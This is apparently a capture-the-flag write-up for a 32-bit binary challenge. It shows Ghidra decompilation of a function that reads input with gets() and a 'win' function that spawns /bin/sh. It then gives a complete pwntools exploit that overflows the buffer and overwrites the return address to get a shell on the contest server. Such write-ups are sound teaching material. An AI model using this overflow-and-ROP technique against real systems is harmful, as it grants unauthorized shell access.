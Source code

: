No stack canary, assume BOF; no PIE, assume ROP.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_3e [54];  
  
__x86.get_pc_thunk.ax();  
 gets(local_3e);  
 return;  
}

void win(void)  
{  
 int iVar1;  
  
 iVar1 = __x86.get_pc_thunk.ax();  
 system((char *)(iVar1 + 0x12e));  
 return;  
}  
```

From `vuln`, `gets` can be used to overwrite the return address on the stack.
`local_3e` is `0x3e` bytes from the return address, so just write out `0x3e`
of garbage followed by the address for `win`.

The `system` call in `win` is actually `system("/bin/sh")`, to understand why
`iVar1 = __x86.get_pc_thunk.ax(); system((char *)(iVar1 + 0x12e));` equates to
that, read [ractf2020/nra#decompile-with-
ghidra](https://github.com/datajerk/ctf-write-
ups/tree/master/ractf2020/nra#decompile-with-ghidra).  In short, `iVar1` is
the address of the next instruction, then add `0x12e`, and then look in the
disassembly at the location for the string.  In this case it's `/bin/sh`.
Welcome to x86 (32-bits).

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_02')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30002)

p.sendlineafter('Went along the mountain side.\n','foobar')

payload  = b''  
payload += 0x3e * b'A'  
payload += p32(binary.sym.win)

p.sendline(payload)  
p.interactive()  
```
